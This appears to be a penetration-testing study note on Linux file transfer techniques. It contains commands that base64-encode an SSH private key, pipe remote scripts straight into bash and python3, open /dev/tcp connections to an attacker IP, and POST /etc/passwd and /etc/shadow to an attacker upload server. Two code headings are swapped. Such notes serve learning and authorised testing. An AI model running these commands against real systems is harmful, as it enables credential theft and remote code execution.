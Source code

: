 ```yaml
---
title: File_Transfer_Methods_Linux
tags:
  - file_sharing
  - linux
created: 2025-02-25
---
```


# File_Transfer_Methods_Linux

## Description
There are various methods to transfer files between systems using Linux tools and bash

## Download Operations
### Base64 Encode & Decode
#### Encode the file on attacker machine
Encode a file into a Base64 string (useful when transferring via text channels).
```bash
md5sum id_rsa # For checking the file integrity
cat id_rsa | base64 -w 0; echo
    ```

#### Decode the file on target machine
On the target linux machine decode the string back into a file:
```bash
echo -n 'base64string' | base64 -d > id_rsa
```

### Web Downloads with Wget and cURL
#### wget download
```bash
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
```

#### cURL downlaod
`cURL` is very similar to `wget`, but the output filename option is lowercase `-o'.
```bash
curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

### Fileless Attacks Using Linux
Because of the way Linux works and how [pipes operate](https://www.geeksforgeeks.org/piping-in-unix-or-linux/), most of the tools we use in Linux can be used to replicate fileless operations, which means that we don't have to download a file to execute it.

>[!NOTE]
>Note: Some payloads such as mkfifo write files to disk. Keep in mind that while the execution of the payload may be fileless when you use a pipe, depending on the payload chosen it may create temporary files on the OS.

#### Fileless download with wget
```bash
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```

#### Fileless download with cURL
`cURL` is very similar to `wget`, but the output filename option is lowercase `-o'.
```bash
wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```

### Download with Bash (/dev/tcp)
There may also be situations where none of the well-known file transfer tools are available. As long as Bash version 2.04 or greater is installed (compiled with --enable-net-redirections), the built-in /dev/TCP device file can be used for simple file downloads.
#### Connect to the webserver
```bash
exec 3<>/dev/tcp/<attacker_ip>/80
```
#### HTTP GET request
```bash
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
```
#### Print the Response
```bash
cat <&3
```
### SSH Downloads
SSH is a protocol that allows secure access to remote computers. SSH implementation comes with an `SCP` utility for remote file transfer that, by default, uses the SSH protocol.
```bash
scp <username>@<attacker_ip>:/root/myroot.txt . # on a target machine
```

>[!NOTE]
>You can create a temporary user account for file transfers and avoid using your primary credentials or keys on a remote computer. 

## Upload Operations
### Web Upload
we can use uploadserver - extended module of the Python `HTTP.Server` module, which includes a file upload page. For this example let's configure the `uploadserver` module to use `HTTPS` for secure communication.
####  Download python module
```bash
sudo python3 -m pip install --user uploadserver
```

####  Create a self-signed certificate
```bash
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'

# The webserver should not host the certificate.
# Create a new directory to host the file for webserver.
mkdir https && cd https
```

#### Start a web server
```bash
sudo python3 -m uploadserver 443 --server-certificate ~/server.pem
```

#### From a target machine upload multiple files
```bash
curl -X POST https://<attacker_ip>/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

### Alternative Web File Transfer Method
#### Creating a web server
```bash
python3 -m http.server

python2.7 -m SimpleHTTPServer

php -S 0.0.0.0:8000

ruby -run -ehttpd . -p8000

```

#### Downloading a file from target host to attacker host
```bash
wget <target_ip>:8000/filetotransfer.txt
```

### SSH Upload
Some companies allow the `SSH protocol` for outbound connections. If that's the case, we can use an SSH server with the `scp` utility to upload files
```bash
scp /etc/passwd <target_username>@<target_ip>:/home/directory
```

## Sources
- link
